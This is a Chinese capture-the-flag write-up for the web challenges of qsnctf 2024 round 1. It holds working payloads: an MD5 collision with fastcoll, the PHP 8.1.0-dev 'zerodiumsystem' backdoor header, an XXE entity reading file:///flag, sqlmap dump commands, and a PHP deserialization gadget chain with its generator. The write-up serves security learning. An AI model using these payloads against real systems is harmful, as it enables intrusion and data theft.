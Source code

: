 # qsnctf#2024round1


## Web

### EasyMD5
> 题目描述：php没有难题
![alt text](images/image.png)
题目需要提交两个pdf文件，根据题名知道，需要两个md5值相同的文件
使用fastcoll这个工具，这个工具可以对文件的md5进行碰撞，
```bash
$ wine fastcoll_v1.0.0.5.exe 1.pdf
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: '1_msg1.pdf' and '1_msg2.pdf'
Using prefixfile: '1.pdf'
Using initial value: fc973272a5af2bc4d379714aeecefc9b

Generating first block: ............
Generating second block: W.............
Running time: 4.163 s

$ ls
1_msg1.pdf  1_msg2.pdf  1.pdf  fastcoll_v1.0.0.5.exe
```
上传成功，页面加载一秒后会跳转.代码中有一段
`<meta http-equiv="refresh" content="1;url=index.html">`
会跳转到index.html .
提前把`f12`开发者工具打开，监听网络，勾选持续记录。把生成的`1_msg1.pdf`和`1_msg2.pdf`上传，响应包中既可获得flag
![alt text](images/image-1.png)



### PHP的后门
> 题目描述：PHP竟然也会有后门这种东西？你知道吗！

打开题目提示：
```txt
欢迎来到这里！
请合理使用当前内容获得FLAG！
你应该知道这是哪个版本的PHP吧！
```
查看响应包的http头部，可知php版本为`PHP/8.1.0-dev`

这个版本的php有个后门远程命令执行
![alt text](images/image-2.png)
```http
 User-Agentt : zerodiumsystem('cat /flag');
```


### PHP的XXE
> 题目描述
> XXE（XML External Entity）是一种针对XML解析器的攻击技术，也被称为XML外部实体注入攻击。当应用程序解析用户提供的XML输入时，如果没有正确地配置或过滤外部实体，攻击者可以利用这一漏洞执行恶意操作。
> XML允许在文档中定义和使用外部实体，这些实体可以从外部资源（如文件、网络URL等）中获取数据。如果应用程序解析了包含恶意外部实体的XML输入，并且未对外部实体进行适当的处理或限制，攻击者可能会读取敏感文件、执行远程代码或进行其他恶意活动。

看不懂题目  搜索 关键词 [phpinfo xxe](https://www.google.com/search?client=firefox-b-d&q=phpinfo+xxe)

找到文章[PHP环境 XML外部实体注入漏洞（XXE）](https://joker-vip.github.io/2021/12/06/PHP%E7%8E%AF%E5%A2%83%20XML%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88XXE%EF%BC%89/)

根据文章提示的 `dom.php` 发送payload
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root>
```
![alt text](images/image-3.png)
这题没搞懂，为啥会有其他php文件
```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```


### Easy_SQLi
> 题目描述: Easy的SQLi

打开题目是个登录框
![alt text](images/image-4.png)

sqlmap 自动寻找注入点
```bash
sqlmap -u 'http://challenge.qsnctf.com:32522/' --form --batch
```
注入成功，只能时间盲注。
没有waf，查找一段时间的数据，发现flag在users表中的password字段，
```bash
sqlmap -u 'http://challenge.qsnctf.com:32522/' --form -D qsnctf -T users -C password --dump --batch
```
![alt text](images/image-5.png)
获得flag


### 雏形系统
> 题目描述: 今天是公司里的工程师小王被裁员的日子，但小王并没有闲着。在离开之前，他突发奇想，决定留下一份特别的礼物给公司，于是他设计了一个登录页面的雏形。
![alt text](images/image-6.png)

dirsearch 扫描
```bash
$ dirsearch -u http://challenge.qsnctf.com:31493/ -e php 

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 25
Wordlist size: 9411

Output File: /home/anjv/reports/http_challenge.qsnctf.com_31493/__24-03-02_16-22-57.txt

Target: http://challenge.qsnctf.com:31493/

[16:22:57] Starting: 
[16:23:27] 200 -    2KB - /www.zip

Task Completed
```
扫描到www.rar文件
下载解压，有个sqnctf.php文件，去掉混淆，代码如下：
<details>

<summary> 展开代码 </summary>

```php
<?php
    error_reporting(0);
    class shi
    {
        public $next;
        public $pass;
        public function __toString(){
            $this->next::PLZ($this->pass);
        }
    }
    class wo
    {
        public $sex;
        public $age;
        public $intention;
        public function __destruct(){
            echo "Hi Try serialize Me!\n";
            $this->inspect();
        }
        function inspect(){
            if($this->sex=='boy'&&$this->age=='eighteen')
            {
                echo $this->intention;
            }
            echo "🙅18岁🈲";
        }
    }
    class Demo
    {
        public $a;
        static function __callStatic($action, $do)
        {
            global $b;
            $b($do[0]);
        }
    }
    $b = $_POST['password'];
    $a = $_POST['username'];
    @unserialize($a);
    if (!isset($b)) {
        echo "==================PLZ Input Your Name!==================";
    }
    if($a=='admin'&&$b=="'k1fuhu's test demo")
    {
        echo("登录成功");
    }
    ?>
```
</details>

反序列化，
`$b($do[0]);`
这段代码可以造成代码执行。

编写代码，生成payload

<details>
<summary> 展开代码 </summary>

```php
<?php
class shi
    {
        public $next;
        public $pass;
    }
    class wo
    {
        public $sex;
        public $age;
        public $intention;
    }
    class Demo
    {
        public $a;
    }
    $wo = new wo();
    $shi = new shi();
    $demo = new Demo();
    $wo->sex = 'boy';
    $wo->age = 'eighteen';
    $shi->next = $demo;
    $shi->pass = 'cat /flag';
    $wo->intention = $shi;
    $demo->a = '111111';
    echo urlencode(serialize($wo)) ;
    ?>
```

</details>

执行代码生成payload
```bash
$ php ser.php 
O%3A2%3A%22wo%22%3A3%3A%7Bs%3A3%3A%22sex%22%3Bs%3A3%3A%22boy%22%3Bs%3A3%3A%22age%22%3Bs%3A8%3A%22eighteen%22%3Bs%3A9%3A%22intention%22%3BO%3A3%3A%22shi%22%3A2%3A%7Bs%3A4%3A%22next%22%3BO%3A4%3A%22Demo%22%3A1%3A%7Bs%3A1%3A%22a%22%3Bs%3A6%3A%22111111%22%3B%7Ds%3A4%3A%22pass%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7DHi
```

发送payload获得flag
![alt text](images/image-7.png)


## Misc


## Pwn


## Crypto


## Reverse
